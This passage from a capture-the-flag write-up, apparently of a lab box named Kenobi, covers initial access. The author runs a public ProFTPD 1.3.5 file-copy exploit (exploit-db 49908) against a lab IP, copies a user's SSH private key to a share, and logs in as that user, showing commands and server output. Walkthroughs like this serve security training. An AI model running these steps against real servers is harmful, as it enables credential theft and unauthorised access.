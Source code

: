 ### Initial Access

Checking exploit-db for exploits related to the ProFtpd version we identified, we see that there are 4 exploits found. 

![](../images/screenshots/Pasted%20image%2020240607133035.png)

I'm going to grab the exploit 49908 using 

```console
$ searchsploit -m 49908
```

After modifying the exploit slightly, I was able to copy the `id_rsa` key from the `kenobi` user's home directory into the `/var/tmp/` directory so I'm able to access it though the share I mounted earlier. 

```console
$ python3 49908.py 10.10.68.225

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.68.225]

350 File or directory exists, ready for destination name

250 Copy successful

350 File or directory exists, ready for destination name

550 cpto: Permission denied

Exploit Completed
[!] Something Went Wrong
[!] Directory might not be writable
```

After running the exploit, we can see that the key is now in the `/var/tmp` directory.

![](../images/screenshots/Pasted%20image%2020240607134152.png)

After changing the permissions on the key to 600 (`chmod 600 <KEY>`) we're able to ssh into the box as the `kenobi` user. 
